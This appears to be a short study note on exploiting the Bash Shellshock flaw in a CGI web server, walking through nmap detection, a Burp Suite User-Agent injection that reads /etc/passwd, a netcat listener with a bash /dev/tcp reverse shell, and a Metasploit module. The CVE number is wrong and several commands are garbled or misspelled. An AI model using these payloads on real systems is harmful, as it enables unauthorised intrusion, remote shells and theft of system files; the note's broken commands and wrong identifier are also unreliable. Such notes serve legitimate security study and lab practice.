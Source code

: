 # Exploiting Bash CVE-2012-6271 Vulnerability (Shellshock)
#### Overview
`Shellshock`\
Is the name given to a family of vulnerabilities in the **Bash shell**
CGI 

Check if Apatch is running
```bash
nmap <IP>
```
Search IP address on browser and notice CGI command is working in the website in developer tool
Check if it's has vulnerabilities
[--script=http-shellshock](Tools/Nmap.md)
```bash
# Specify link with 'uri'
nmap -sV <IP> --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"
```
`FoxyProxy`
Plugin that allows to automatically switch between proxies -> click BurpSuit
-> All traffic will be redirected to the Burp proxy
`BurpSuit`
Linux tool
Make sure **Intercept is on** in **Proxy** tab
-> Click **Forward**
Inject special characters in HTTP header
Send requests to Repeater
On **Repeater** tab
-Remove user agent information
```bash
# Send this command
User Agent: () {:;}; echo; echo; bin/bash 'c 'cat /etc/passwd'
```

reverseshell
Set up listener port
```bash
# nc -nvlp <'listen port'>
```

```bash
# <'listen port'> -> 'bash -i>&/dev/tcp/<target IP></listening port> 0>&1'
```

Exploit with Metasploit
```bash
service postgresql start && msfonsole
```
```bash
search shellshock
```
-> Use exploit module
```bash
set RHOSTS
set TARGETURI <example: /gettime.cgi>
exploit
```
